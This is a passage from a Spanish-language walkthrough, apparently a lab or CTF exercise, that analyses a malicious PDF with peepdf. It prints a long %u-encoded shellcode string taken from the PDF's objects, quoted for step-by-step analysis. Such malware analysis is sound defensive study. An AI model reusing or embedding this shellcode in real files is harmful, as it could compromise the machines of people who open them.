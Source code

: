 ![getpdf22](https://github.com/Sokratica/sokratica/blob/master/assets/img/getpdf/img22.png?raw=true)

- En la sección de "Output" tendremos el shell code de los objetos 7 y 9.
- El shell code completo está dividido así que tendremos que entender cómo funciona por partes. Regresaremos a nuestra sesión interactiva del "peepdf" y copiar y pegar parte por parte el código.
- En la sesión de peepdf metemos lo siguiente. Toda esa cadena de caracteres está dentro de la primera parte del shell code:

```
set var ""%uc931%u64b1%ub6bf%u558b%ud976%ud9cd%u2474%u58f4%ue883%u31fc%u0d78%u7803%ue20d%u6043%u2c45%u44e1%ub6af%u964c%ub72e%ued9a%u55a9%u1a18%u71cc%u2237%u7e30%u91b7%u1856%ue9ae%u2394%u7479%ucdff%u5e6b%ufc95%ue562%u12a2%u77ad%u53d8%u925f%u4178%ue5b2%ufc62%uf826%ub883%u9e2c%u6c59%uf5dd%u5d2a%uc113%uc7c1%ub031%u6cf7%ua2b6%u1838%u2007%u1d29%ua0b1%u0314%uaee1%ufbd8%u96df%ua80b%uc7cd%uca91%ubfab%u7091%uea13%u7a32%u7bb1%u5ba0%ue130%u3b9f%u8d42%ue4ba%u28a0%u4e20%u29d6%u0147%uf2cc%ucff0%uffb9%u2f62%uc948%u2904%ud333%ude69%u2b88%u10f3%u776b%uedee%uef80%u9fcf%u89c2%uc649%uf510%u36e3%u10fb%ud153%u40ef%u4d82%u41f6%ue4ae%u5cb1%uf58a%uaa78%u3472%u750f%u52e6%u712a%u9faf%u5fea%uc24a%u9cf3%u64f2%u0559%u5ecc%u7957%u0607%ue3a9%u828a%u26fc%uc2cc%u7f97%u1577%u2a0a%u9c21%u73c8%ube3e%u4838%uf571%u04de%uca4d%ue02c%u6126%u4c09%ucab8%u16cf%ueb5c%u3af3%uf869%u3ffd%u02b2%u2bfc%u17bf%u3214%u149e%u8f05%u0fff%uec38%u0df4%ue632%u5709%u0f5f%u481a%u6947%u7913%u5680%u864d%ufe94%u9652%uec98%ua8a6%u13b3%ub6c0%u39da%ub1c7%u1421%ub9d8%u6f32%udef2%u091c%uf4e9%ude69%ufd04%ud308%ud722%u1af7%u2f5a%u15f2%u2d5b%u2f31%u3e43%u2c3c%u26a4%ub9d6%u2921%u6d1c%uabe5%u1e0c%u059e%u8fa4%u3f0e%u3e4d%ucbaa%ud183%u5346%u40f5%ub4de%uf46f%uae52%u7901%u53fa%u1e82%uf294%u8d50%u9b01%u28cf%u50e5%ud262%ue195%u661d%u2003%ufeb8%ubcae"
```

![getpdf23](https://github.com/Sokratica/sokratica/blob/master/assets/img/getpdf/img23.png?raw=true)
